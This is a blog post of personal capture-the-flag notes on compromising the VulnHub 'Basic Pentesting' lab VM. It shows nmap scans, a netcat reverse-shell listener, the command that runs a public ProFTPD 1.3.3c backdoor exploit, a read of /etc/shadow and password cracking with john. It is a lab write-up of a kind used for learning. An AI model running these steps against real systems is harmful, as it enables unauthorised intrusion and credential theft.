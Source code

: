 ```yaml
---
layout: post
title:  "VulnHub: Basic Pentesting Writeup"
categories: ctf-writeup
tags: ctf writeup vulnhub
---
```


Resources used:
s1ren's template
s1ren's linux priv esc cheatsheet

Tools used:
Nmap
dirbuster
searchsploit
ssh
netcat
https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/



Below is what my template lookes like after filled out (passwords redacted). This was one of the first vulnhub boxes I completed so my notes are really bad. I will be redoing them soon and posting them here to demonstrate the differences. 

192.168.158.128
Ubuntu 16.04.3 LTS
hostname: vtcsec

Guest account
no password
no sudo

guest-kpippq@vtcsec
marlinspike

─$ sudo nmap 192.168.158.128 -sT
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 08:58 EDT
Nmap scan report for 192.168.158.128
Host is up (0.0068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http


21
ProFTPD 1.3.3c Server
Anonymous login ok, send your complete email address as your password

80
Apache/2.4.18 (Ubuntu) Server at 192.168.158.128 Port 80

dirbuster \usr\share\wordlists\

22
ssh guest@ *need password*

======= restarted machine 

└─$ sudo nmap 192.168.158.128 -sT -O -sV
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 09:40 EDT
Nmap scan report for 192.168.158.128
Host is up (0.00078s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

=== shutdown machine ===
dirbuster taking too long
hydra taking too long against marlinspike
need vulners


---------------------

sudo nmap 192.168.158.131-sCV -T4 -p-

└─$ sudo nmap 192.168.158.131 -sCV -T4 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-13 20:45 EDT
Nmap scan report for 192.168.158.131
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:43:6B:30 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.89 seconds



https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/blob/main/proFTPD_1.3.3c_exploit.py

started nc listener  (nc -lvnp 1234)
ran proFTPD to get shell (python3 proFTPD_1.3.3c_exploit.py 192.168.158.130 192.168.158.131)
	less /etc/shadow to see users and hashed passwds
used john to crack password hash (john marlinspike_hash.txt)